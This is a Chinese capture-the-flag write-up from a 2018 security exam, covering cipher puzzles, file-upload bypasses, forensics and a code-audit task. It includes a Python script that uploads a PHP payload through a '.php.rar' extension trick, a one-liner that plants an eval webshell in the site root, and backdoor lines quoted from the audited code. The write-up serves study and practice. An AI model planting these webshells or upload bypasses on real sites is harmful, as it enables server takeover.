

# 安全检测专业论坛考试WriteUp2018
---

## 0x00 前言
这次比赛的成绩不理想，由于水平有限，当时比赛的时候很多题目没有做出来，还好后来官方放出了解题步骤，结合答案，写下如此WriteUp。

## 0x01 加解密

1. 迪菲赫尔曼

  

  根据私钥、质数等字眼知道是一个加密算法。题目中又提到了是迪菲赫尔曼，在网上查询了资料知道是迪菲赫尔曼加密算法，有一个表述得比较清楚的图：

  

  套用到题目里面，因为我们已经得到了对方发来的数据，相当于是拥有了鲍勃发来的B的值。因此只需要根据第4步的公式计算出s的值就可以了。

  ```
  Python
  B = 24709382923870850932861355488470
  a = 9571
  p = 72542982052896163041354492265957
  print(B**a%p)
  ```

2. 仿射密码

  

  考试的时候网上找资料，然后把仿射密码的脚本写好运行就拿到FLAG了。结果脚本写好以后才发现网上有现成的解密工具......

  解密代码如下：
  ```
  a = [1,3,5,7,9,11,15,17,19,21,23,25]
  b = 23
  str = 'ecxvdrjuoydxebwdqmkbrh'
  for i in a:
	print(i)
    for s in str:
    c = i * ((ord(s)-97)-b)%26
    print(chr(c+97),end='')
	print('')
  ```
  结果：
  

3. 常见密码

  按我以前的经验，凡是提到“常见”、“简单”字眼的题目，一般都不简单。这个题目没有做出来。
  

## 0x01 Web编程

1. 刮刮乐

  

  页面有一个刮刮卡，刮了以后出现一张印有FLAG的图片，把FLAG内容提交后提示错误，肯定没这么简单的。于是把图片下载下来以后使用binwalk分析，也没有异常。

  

  提示中说到需要一些耐心，因此考虑不停的刷新页面看有没有其他结果。首先写代码得到整个页面的长度。

    

  然后不停的刷新页面，捕捉与常规页面不同长度的页面内容，果然得到了FLAG。

    

2. 想要上传个文件真的好难

  打开页面就是一个简单的上传文件框，上传PHP后缀的文件会跳出不允许上传该类型文件的提示

    

  于是使用BurpSuite截获上传请求，在上传内容中加入一句话并且尝试更改上传文件后缀，发现xxx.php.rar后缀可以上传成功。但是上传的文件很快就会被删除，因此写脚本实现渗透。

  ```
  import requests
  import random
  import string

  url = 'http://10.1.213.86/'
  headers = {
  	'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundaryzJSSZAev8NCPwfPj',
  	'Referer': 'http://10.1.213.86/'
  }

  data_raw = '''
  ------WebKitFormBoundaryzJSSZAev8NCPwfPj
  Content-Disposition: form-data; name="file"; filename="%s.php.rar"
  Content-Type: application/octet-stream

  <?php system("phpinfo()");?>
  ------WebKitFormBoundaryzJSSZAev8NCPwfPj
  Content-Disposition: form-data; name="submit"

  Submit
  ------WebKitFormBoundaryzJSSZAev8NCPwfPj--
  '''

  data = data_raw %''.join(random.sample(string.ascii_letters + string.digits,8))
  r = requests.post(url=url,headers=headers,data=data)
  url_upload = url + r.content[-55:-8].decode('utf-8')
  r_result = requests.get(url_upload)
  print(r_result.content)
  ```

  最后修改上传内容一步步的找到FLAG所在文件，拿到FLAG.

    

  PS:这个题目也有另外思路，因为上传的文件路径会被删除，因此考虑把上传的内容修改为在网站根目录写入一句话文件。

  `<?php $fp=fopen("../ma.php","w+");fputs($fp,"<? eval($_POST[cmd];?>");?>`

3. 有趣的脚本

    

  很简单的一道题。首先页面打开什么都没有，用F12看发现一个JS函数

  

  然后，使用Chrome的consol调用get_file()函数直接弹出文件提示，访问后得到flag.

    

    

      

## 0x02 安全数据分析

1. 暴力可解

  首先下载一个zip压缩包，既然题目提示了是暴力可解，那么写个脚本进行爆破。

     

  拿到密码以后解压是两个jpg图片

  

  用binwalk跑一下，没有发现破绽。上网查询发现是盲水印的技术。直接使用现成的项目[BlindWaterMark](https://github.com/chishaxie/BlindWaterMark)解密。

  

  拿到FLAG

    

  PS:盲水印技术实际上是通过傅里叶变换实现的，为此我还在B站看了介绍傅里叶变换的视频，整个加密过程大致是这样：

  首先，傅里叶变换可以将时域的波形转换为频域的波形,换句话来说就是将一个波形图像的坐标轴由原来的**时间-幅度**二维坐标转换为**频率-幅度**的二维坐标进行描绘。而且一个波形经过两次傅里叶变换后基本可以恢复到原来的波形图像。

  然后，我们把图片中的灰度变化情况理解成波形变换，那么也可以通过傅里叶变换将这个时域波形转换为频域，转换后频域图像与我们希望隐藏的信息进行叠加，最后进行逆傅里叶变换就能恢复原来的图像，并且里面带有隐藏的内容。

2. 破镜重圆

  打开题目提供的pcap文件观察发现有一张png图片，导出后发现无法打开。

    

  考虑题目是叫做破镜重圆，因此这个Png文件可能被损坏，使用winhex打开损坏png文件以及另外一张正常的png文件进行比较。经过比较发现导出的png文件头部缺少8字节的内容，随后进行填充后导出发现flag

    

  


## 0x03 挖掘入侵行为

1. 网站被篡改了

      

  是一个代码审计题目,文件下载下来以后观察。在53行`$openid = @preg_replace("/linkurl/e",$_COOKIE['linkurl'],"Cookie_linkurl");`
  90行`$user = fputs(fopen(base64_decode('bG9zdC5waHA='),w),base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydsb3N0d29sZiddKTs/Pg=='));`
  105行`$referer = $_GET[a]($_GET[b]);`有可疑代码，删除后上传文件拿到flag

  

2. 黑客大追踪

  首先拿到题目，里面是一个服务器访问方式

     

  SSH进去后发现当前目录下的命令行记录文件.bash_history

     

  拿到数据库账户后查看数据库里面内容，找到FLAG

    

3. 秘密文件

  题目给出了一个pcapng文件，用Wireshark分析，发现通过FTP的方式传输了一个rar文件。

  

  将传输的rar十六进制内容复制出来后，在winhex中新建文件把内容插入后转存为rar文件。

  

  使用工具ARCHPR暴力破解拿到flag

## 0x04 漏洞利用加固

1. 小马过河

    

  看题目就知道大致的方向。

  首先会检查文件格式是否是图片文件。
  因此使用BurpSuite对上传内容进行修改，一是修改上传文件后缀，二是在上传内容后面加入一句话木马。

  

  随后用菜刀就能找flag文件了

    


## 0x05 后记

  写完这个WriteUp后我才发现其实这次题目并不是很难，但是暴露出几个问题：

  - 工具使用不熟练，例如考察了两次网络包分析，wireshark都用得不好，对网络包的分析有点进步。winhex软件也是不熟悉，连如何插入字节都不会。
  - CTF常见的题型没思路，例如两道上传题，很简单的题目却是一开始都没搞清楚怎么弄。上传题这一部分需要专项练习，准备把Uploads-lab做了提高一下。
  - 脚本能力有所下降，例如暴力破解zip那个题目，4个字符串的遍历当时没想出来怎么弄出来。

  这些比赛每年都在搞，但是每年的成绩都不理想。问题我也清楚，主要还是因为这方面的学习只停留在三分钟热度，没有保持长期的学习状态，并且眼高手低，一些基本的技术含含糊糊就过去了，没有真正的理解吃透。

  无论之前的考试怎样，立一个FLAG在这里：

  加油了。
